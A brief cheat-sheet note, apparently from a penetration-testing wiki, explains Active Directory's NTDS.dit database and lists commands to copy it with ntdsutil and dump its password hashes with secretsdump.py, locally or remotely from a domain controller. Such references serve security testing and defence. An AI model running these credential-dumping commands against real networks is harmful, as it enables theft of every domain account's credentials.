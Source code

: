 ```yaml
---
title: NTDS.dit
date: M02-18-2023
author: i4
---
```


The `NTDS.dit` stores Active Directory data, including information about users.

- Location: `%systemroot%/NTDS/ntds.dit`

This file is a database Extensible Storage Engine (ESE) and is "officially" composed by 3 tables:
- Data Table: Contains the information about the objects (users, groups...)
- Link Table: Information about the relations (member of...)
- SD Table: Contains the security descriptors of each object

### Ntdsutil
```
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
```

## Extracting hashes
```
secretsdump.py LOCAL -ntds ntds.dit -system SYSTEM -outputfile credentials.txt
```

or automatically
```
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
```

for bigger NTDS.dit  => https://github.com/c-sto/gosecretsdump